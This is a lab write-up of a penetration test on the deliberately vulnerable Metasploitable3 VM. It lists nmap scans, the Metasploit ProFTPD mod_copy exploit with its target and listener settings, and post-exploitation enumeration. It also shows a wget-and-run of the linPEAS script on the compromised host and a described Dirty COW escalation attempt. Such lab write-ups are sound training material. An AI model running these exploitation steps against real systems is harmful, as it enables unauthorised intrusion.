










# 🧪 Metasploitable3 Penetration Test – Full Lab Report

## 📘 Introduction

This lab simulates a real-world penetration test against the vulnerable VM **Metasploitable3** using **Kali Linux** as the attacking machine. The goal is to perform reconnaissance, exploitation, and privilege escalation, while documenting every step through screenshots.

---

## 🛠️ Lab Setup

| Machine       | OS                    | IP Address       |
|---------------|------------------------|------------------|
| Attacker      | Kali Linux             | 172.28.128.100   |
| Target        | Metasploitable3 Ubuntu | 172.28.128.3     |

---

## 1️⃣ Scanning the Network

We use `nmap` to detect live hosts in our subnet.

```bash
nmap -sn 172.28.128.0/24
```



---

## 2️⃣ Scanning the Target Machine

We perform a detailed scan to identify open ports and services.

```bash
nmap -sS -sV -sC -O -Pn 172.28.128.3
```



---

## 3️⃣ Opening Metasploit

We launch the Metasploit Framework:

```bash
msfconsole
```



---

## 4️⃣ Discovering Vulnerabilities

We search for vulnerabilities in the ProFTPD service identified earlier.

```bash
search proftpd
```



---

## 5️⃣ Selecting Exploit and Setting Parameters

We choose `exploit/unix/ftp/proftpd_modcopy_exec` and configure it.

```bash
use exploit/unix/ftp/proftpd_modcopy_exec
set RHOSTS 172.28.128.3
set LHOST 172.28.128.100
set RPORT 21
```



---

## 6️⃣ Running the Exploit

We launch the exploit to gain remote code execution.

```bash
run
```



---

## 7️⃣ Gathering Information

We enumerate the compromised machine.

```bash
whoami
id
hostname
uname -a
```



---

## 8️⃣ Downloading and Executing linPEAS

We upload and execute linPEAS for local enumeration.

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```



---

## 9️⃣ Privilege Escalation Opportunities

We identify Dirty COW as a potential escalation path.



---

## 🔟 Attempted Privilege Escalation

We attempt to exploit Dirty COW, which appears to work but doesn’t yield a root shell directly.



---

## ✅ Conclusion

- ✔️ Target identified and scanned
- ✔️ Exploit executed successfully using Metasploit
- ✔️ Post-exploitation enumeration completed
- ✔️ Privilege escalation attempted using Dirty COW
- ❗ Root access not achieved, but vector validated

This lab illustrates a full cycle of a basic penetration test in a controlled environment.
